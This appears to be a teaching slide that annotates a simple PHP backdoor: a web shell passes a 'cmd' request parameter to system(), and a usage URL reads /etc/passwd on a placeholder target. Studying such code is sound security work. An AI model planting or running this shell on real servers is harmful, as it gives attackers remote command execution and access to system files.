

# Example 1 : Code analysis
cat /etc/hosts
<?php

if(isset($_REQUEST[‘cmd’])){     //若請求表頭有設置”cmd”變數
        echo “<pre>”;                      //文本標籤開始
        $cmd = ($_REQUEST[‘cmd’]); //取得cmd的值存入php的cmd變數
        system($cmd);                  //執行指令
        echo “</pre>”;                    //文本標籤結束
        die;                        //輸出訊息並結束
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

51